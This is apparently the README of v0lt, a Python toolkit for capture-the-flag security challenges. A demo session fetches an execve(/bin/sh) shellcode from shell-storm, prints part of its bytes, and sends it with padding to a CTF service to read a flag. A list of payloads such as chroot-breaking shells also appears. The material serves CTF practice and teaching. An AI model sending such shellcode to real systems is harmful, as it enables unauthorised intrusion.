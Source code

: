 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style. 
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Requirements and Installation    
####Dependencies:   
* Python3    
  * BeautifulSoup    
  * Requests    

####Installation:   
```Bash
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
sudo python3 setup.py install # sudo is required for potentially missing dependencies    
```

##Demo: Shellcodes
```Python
>>> from v0lt.network.netcat import Netcat
>>> from v0lt.tools.shellhack import ShellHack
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read(1))
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")

.
.
.
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
.
.
.

Selection: 86
You chosed http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{EasyPe4syL3m0nSq33zy!!}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (Xor)    
    * Usual conversions (bytes/strings/hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)    

* Shellcodes    
    * Shellcode selection and download from Shell-storm repo    
    * Shellcode formater 
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support    
    * Netcat    
    * Telnet    

And more
